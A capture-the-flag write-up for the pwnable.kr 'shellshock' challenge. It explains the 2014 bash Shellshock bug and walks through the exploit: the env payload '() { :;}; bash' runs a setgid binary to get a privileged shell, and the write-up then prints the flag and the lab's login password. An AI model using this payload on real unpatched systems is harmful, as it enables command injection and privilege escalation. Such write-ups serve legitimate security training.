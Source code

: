 # shellshcok

## Description

shellshock - 1 pt

> Mommy, there was a shocking news about bash. <br>
> I bet you already know, but lets just make it sure :) <br> <br> <br>
> ssh shellshock@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### Shellshock

Shellshcok is a vulnerability in the bash shell. It allows an attacker to execute arbitrary commands on the target machine. The vulnerability was discovered in 2014 and was patched in 2014. However, many systems are still vulnerable to this attack.

The bug is caused by the way bash handles environment variables. Bash will unintentionally execute commands when they are concatenated to the end of function definitions stored in the values of environment variables.

For example, in older versions of bash, the following code will print the current working directory:

```bash
$ env x='() { :;}; pwd' bash -c "echo hello"
```

### Exploit


As always, we start by examining our permissions and the available files:

```bash
$ id
uid=1019(shellshock) gid=1019(shellshock) groups=1019(shellshock)
```

```bash
$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
```

Let's take a look at the source code:

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

This program sets the effective user and group ids of the process to the effective group id of the process. It then executes the bash shell with the command `echo shock_me`. 

Since `shellshock` has the setgid bit set, it will run with the effective group id of `shellshock_pwn`. This means that the program will run with the same permissions as the `shellshock_pwn` user.

As the title of the challenge suggests, we need to exploit the shellshock in order to get the flag. We can do this by setting an `x` environment variable to the following value:

```bash
() { :;}; bash
```

Then, running the `shellshock` program will give us a shell with permissions to read the flag:

```bash 
$ env x='() { :;}; bash' ./shellshock
$ cat flag
only if I knew CVE-2014-6271 ten years ago..!!
```